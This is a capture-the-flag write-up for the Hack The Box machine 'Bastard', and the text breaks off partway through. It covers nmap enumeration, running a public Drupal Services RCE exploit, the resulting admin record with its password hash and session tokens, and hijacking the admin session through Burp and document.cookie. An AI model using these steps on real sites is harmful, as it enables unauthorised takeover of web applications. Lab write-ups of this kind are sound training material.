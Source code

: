 ```yaml
---
layout: post
title: Bastard
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.9
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.9

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-20 21:59 EST
<br>Nmap scan report for 10.10.10.9
<br>Host is up (0.15s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font>    open  http    Microsoft IIS httpd 7.5
<br>|_http-generator: Drupal 7 (http://drupal.org)
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>| http-robots.txt: 36 disallowed entries (15 shown)
<br>| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
<br>| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
<br>| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
<br>|_/LICENSE.txt /MAINTAINERS.txt
<br>|_http-server-header: Microsoft-IIS/7.5
<br>|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
<br><font color="BB69EC">135/tcp</font>   open  msrpc   Microsoft Windows RPC
<br><font color="BB69EC">49154/tcp</font> open  msrpc   Microsoft Windows RPC
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone|specialized
<br>Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|8.1|7|Vista|2012 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 <br>cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 <br>cpe:/o:microsoft:windows_server_2012
<br>Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 <br>R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft <br>Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), <br>Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 <br>SP1, or Windows 7 (91%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>TRACEROUTE (using port 80/tcp)
<br>HOP RTT       ADDRESS
<br>1   139.01 ms 10.10.14.1
<br>2   139.18 ms 10.10.10.9

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 86.43 seconds

<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>**Web**:- Drupal Service is running
![Drupal](https://teckk2.github.io/assets/images/Bastard/1-Bastard.JPG)
<br>and by checking /CHANGELOG.txt which we found in the nmap scan of robots.txt, we can see the version installed of drupal is 7.54
![version](https://teckk2.github.io/assets/images/Bastard/2-Bastard.JPG)
<br>For which there is a public exploit available [Drupal-Services-Module-rce](https://www.ambionics.io/blog/drupal-services-module-rce) or you can copy it from my [Pastebin](https://pastebin.com/VF0UFu3g)
<br>Now after you copy the exploit from the blog then edit the $url and $endpoint_path
![edit](https://teckk2.github.io/assets/images/Bastard/3-Bastard.JPG)
<br>Now before you run the exploit make sure the main drupal login page is open in your browser or it will show you the error **Failed to login with fake password** or if you still see this error even after opening the login page in browser then revert the machine and try again.
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># php exploit.php 
<br>Stored session information in session.json
<br>Stored user information in user.json
<br>Cache contains 7 entries
<br>File written: <font color="53E100">http://10.10.10.9/dixuSOspsOUU.php</font>
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat session.json 
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;"session_name": "SESSd873f26fc11f2b7e6e4aa0f6fce59913",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"session_id": "NR8MTD7eFRPPmFJGnxGlgJGHIo00ltSWMRV_TO1Iz0k",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"token": "Kkq8taVZ9H5AOpE6kti6qyA2xkjk110_-wOFCKgvGPY"
<br>}
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat user.json 
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;"uid": "1",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"name": "admin",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"mail": "drupal@hackthebox.gr",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"theme": "",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"created": "1489920428",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"access": "1492102672",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"login": 1513922853,
<br>&nbsp;&nbsp;&nbsp;&nbsp;"status": "1",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"timezone": "Europe\/Athens",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"language": "",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"picture": null,
<br>&nbsp;&nbsp;&nbsp;&nbsp;"init": "drupal@hackthebox.gr",
<br>&nbsp;&nbsp;&nbsp;&nbsp;"data": false,
<br>&nbsp;&nbsp;&nbsp;&nbsp;"roles": {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"2": "authenticated user",
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"3": "administrator"
<br>&nbsp;&nbsp;&nbsp;&nbsp;},
<br>&nbsp;&nbsp;&nbsp;&nbsp;"rdf_mapping": {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"rdftype": [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"sioc:UserAccount"
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"name": {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"predicates": [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"foaf:name"
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;]
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;},
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"homepage": {
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"predicates": [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"foaf:page"
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"type": "rel"
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}
<br>&nbsp;&nbsp;&nbsp;&nbsp;},
<br>&nbsp;&nbsp;&nbsp;&nbsp;"pass": "$S$DRYKUR0xDeqClnV5W0dnncafeE.Wi4YytNcBmmCtwOjrcH5FJSaE"
<br>}
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># </p>
</div>
</font>
<p>If you get any error like **PHP Fatal error: Uncaught Error: Call to undefine function curl_init()** possibilities are you don't have php-curl installed in your machine so to solve this you just need to downlaod it and restart the apache server and then run the exploit again.
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># apt-get install php-curl
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># systemctl restart apache2</p>
<br>Now after the exploit completed sucessfully it will give use a link where the file has been written and created a new user in drupal and 2 new files (session.json) and (user.json) in your current directory and if you look inside the session.json file you will see (session_ID, name and token) and we will edit and use this to gain admin access on the web.
<br>Now we need to edit this file session.json
<br>The session file is in format:-
<br>-Session_name:<font color="BB69EC">abc</font>
<br>-Session_id:<font color="BB69EC">def</font>
<br>-Token:<font color="BB69EC">xyz</font>
<br>Now we need to edit this like this
<br>-<font color="BB69EC">abc=def;token=xyz</font>
<br>It will look something like this
<font size="1">
<div style="height:150px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat session.json 
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;<font color="ffff00">"SESSd873f26fc11f2b7e6e4aa0f6fce59913=NR8MTD7eFRPPmFJGnxGlgJGHIo00ltSWMRV_TO1Iz0k;token=Kkq8taVZ9H5AOpE6kti6qyA2xkjk110_-wOFCKgvGPY"</font>
<br>}
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
<br>This is the cookie which we will use to get admin access, Now before we proceed make sure to open 3 links :
* The main drupal login page :- <font color="BB69EC">http://10.10.10.9/</font>
* The admin pannel which will show 403 access denied for now :- <font color="BB69EC">http://10.10.10.9/admin</font>
* And the link which the php exploit gave us :- <font color="BB69EC">http://10.10.10.9/dixuSOspsOUU.php</font>
<br>Now capture the request of **/admin** page in burp and replace the cookie with our cookies.
![cookie-1](https://teckk2.github.io/assets/images/Bastard/4-Bastard.JPG)
![cookie-2](https://teckk2.github.io/assets/images/Bastard/5-Bastard.JPG)
<br>And forward the request and we will get the admin access
![Admin](https://teckk2.github.io/assets/images/Bastard/6-Bastard.JPG)
<br>But for now we have only access to this page, and if you open another page it will still show you **403 error** because the cookie is set for this page only, and to set the cookie for all pages we need to set it manually.
<br>Press **F12**, then click on console and define the cookie:-
<br>_document.cookie = "SESSd873f26fc...........6kti6qyA2xkjk110_-wOFCKgvGPY"_
![cookie-3](https://teckk2.github.io/assets/images/Bastard/7-Bastard.JPG)
<br>The cookie has been set, now we can move around to other pages.
<br>Click on the **Add content** tab below the **Dashboard** on the upper left corner of the page and insided it click on **> Basic Pages**
![content](https://teckk2.github.io/assets/images/Bastard/8-Bastard.JPG)
